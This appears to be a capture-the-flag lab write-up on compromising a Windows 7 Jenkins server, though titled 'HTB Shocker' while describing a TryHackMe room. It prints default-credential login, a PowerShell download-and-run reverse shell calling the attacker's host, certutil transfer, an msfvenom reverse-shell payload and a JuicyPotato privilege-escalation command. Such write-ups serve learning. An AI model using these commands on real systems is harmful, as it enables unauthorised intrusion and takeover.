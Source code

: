 ```yaml
---
layout: post
title: "HTB Shocker write-up"
---
```


## Intro

Just to get things clear, I am a total noob so take the information provided with a generous pinch of salt.

This post is meant for documentation purposes and I wanted to share it because most of the walkthroughs online follow the intended way of using metasploit(meterpreter). While I think that metasploit is a powerful tool, I wanted to find a solution without using it because I thought it would be an interesting learning experience.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687792699119/afd6c737-6ecc-4256-aa15-8696fc5b792a.png)

## Recon

```bash
nmap -sCV -Pn $TARGET_IP
```

A standard `nmap` scan shows that there are 3 TCP ports open: 80, 3389, 8080. `-Pn` is added to save some time on the scan because it is save to assume the challenge machine is always up when you scan it.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687793834467/39355145-267d-4495-aa7e-f164406248e3.png )

When navigating to the site at `http://$IP:8080` we encounter a Jenkins login page, a successful login attempt is achieved by inputting default admin credentials `admin:admin`. Although this might seem intentional, you might be surprised how many admin portals have default credentials in the wild.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687793891567/2eeb4b1b-2c32-4e09-80c3-4667141e43f1.png )

We are greeted with the Jenkins dashboard once we are logged in

Navigate to `project` &gt; `Configure`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687794300609/e119cf7f-5bc2-412d-8be1-794ba958054c.png )

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687794476709/dc1f54b3-b28e-4a53-93dd-7d9fcd8e99b9.png )

Windows batch commands can be executed under the `Build` section.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687771956497/105575e5-f209-4f0b-9044-f90a4a856faa.png )

The room provides you with the PowerShell command to get a reverse shell on the target, replace the command and click `Save`.

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687794609689/d1688510-1162-4785-ba26-3e6aed0b215b.png )

The first part of the command will serve a [reverse shell script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) to the target, you must first host an HTTP server with `python3 -m http.server $PORT` on your machine, replace the IP and port in the PowerShell command accordingly.

In case you are using OpenVPN to connect to the challenge, your IP is under `tun0` when you use `ip addr ls`. Otherwise, it would be listed in the format of `root@$IP` in your terminal when using the attack box provided by TryHackMe.

The second part of the command separated by `;` starts the reverse shell script you just uploaded. On your machine set up a listener with `nc -nlvp $PORT`.

You should be able to obtain a PowerShell with your `nc` listener once you press `Build Now`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687794730988/ecdf58c6-b241-4d96-8133-aeb829973e06.png )

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687794785108/ed33ce31-1267-4867-8262-bff85b204320.png )

## Privilege Escalation

This is where I spend the most amount of time as I was trying to avoid using meterpreter.

`whoami /priv` reveals that `SeDebugPrivilege, SeImpersonatePrivilege` are enabled which could allow for a token impersonation attempt.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687794913762/ccc4da1b-c100-4201-aab1-51f37169fd3a.png )

`systeminfo` reviews that the target is running x64 Windows 7 which will enable us to use [JuicyPotato](https://github.com/ohpe/juicy-potato) to perform privilege escalation. This [article](https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505) explains the concept quite well, give it a read to learn more about the escalation method.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687795029150/2e4560cf-5ce6-43d9-9aa5-628d14906a30.png )

Serve the JuicyPotato 64-bit executable to the target by using the same method of hosting a python3 server on our machine. This time, use `certutil -urlcache -f http://$YOUR_IP:$YOUR_PORT/jp.exe jp.exe` in the PowerShell we obtained with our listener to transfer the executable.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687795166919/fa9b3521-802b-4d6b-bbdf-5f3c280823a3.png )

One more step is required before spawning a privileged shell on our machine. There are many ways to connect back with JuicyPotato such as using `netcat`(the binary is served to the target using the same method as JuicyPotato). Here I opted for the TCP reverse shell generated by `msfvenom`. I did not bother with encoding as this is a beginner-level room, if not then `shikata_ga_nai` should do the trick "most" of the time.

```bash
 msfvenom -p windows/x64/shell_reverse_tcp lhost=$IP lport=$PORT -f exe > rev.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687795405828/981b3023-e632-4f19-9557-43a2fdb8b5f5.png )

To execute the privilege escalation, check that the target has both the JuicyPotato and the `msfvenom` reverse shell executable and set up another listener with `nc` on the port used in generating the reverse shell with `msfvenom`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687795372399/30856d45-7c87-408a-a310-5b05651a18f3.png )

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687795429361/d829a3d3-009f-4c79-8fee-5336705c3797.png )

Finally, execute the PowerShell command.

```powershell
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p rev.exe -t *
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687795479847/ef2dfe13-f2c2-487b-95fd-35f90ae0e997.png )

With the privileged shell, navigate to `C:\Windows\System32\config` to obtain the root flag and complete the room.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687795814991/9b821ff0-a1db-442a-9c25-e9b809a4967c.png )

## Detours (Not part of the walkthrough)

I will share what I tried and failed in this section. Due to my skill level, most of the conclusions made will likely be wrong. Feel free to point me in the right direction so I can learn more about the topic.

### GodPotato

After looking through the [GodPotato](https://github.com/BeichenDream/GodPotato) GitHub page, I assumed that the tool has some level of dependency on the target's .NET framework version. A quick ChatGPT tour gave me a PowerShell command to check for the version on the target.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687833168842/02803bab-406a-4b4e-a1c7-2549614d88e8.png )

During my trial and error phase, I loaded both the NET2 and NET35 executables to the target and got similar results.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687833264053/c23e8f81-06b1-46d0-bf8f-c26b0188363b.png )

After further research on the nature of the exploit, I suspect that it has something to do with how the challenge machine was set up. As far as I know, the potato family of exploits relies on tricking the `NT AUTHORITY\SYSTEM` account into authenticating via NTLM. This was as far as I could go in terms of finding out why the tool did not work for this machine as I have reached the limit of my understanding on the topic. However, I suspect that there might be methods to check for compatibility with this tool similar to that of the .NET framework version check above. My guess is something along the lines of checking whether the service required for this exploit is running on the target machine.

### PrintSpoofer

During the recon phase, we concluded that the target machine is running x64 Windows 7 so I served the 64-bit version of the [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) executable onto the target machine.

For consistency's sake with the demo from the GitHub page I connected back to my machine with `cmd` using a `netcat` binary which I served to the target.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687835030267/b0f5fed7-e03d-4436-8deb-99a1ca9b92dd.png )

This method proved to be uneventful as I could not even invoke the `-h` help command with the executable.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687835176666/2d50791c-403a-4e16-a53d-98fde09c7fae.png )

Just for the sake of it, I also tried with the 32-bit executable.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1687835353603/697c5199-f382-4320-b079-1931a130ecf1.png )
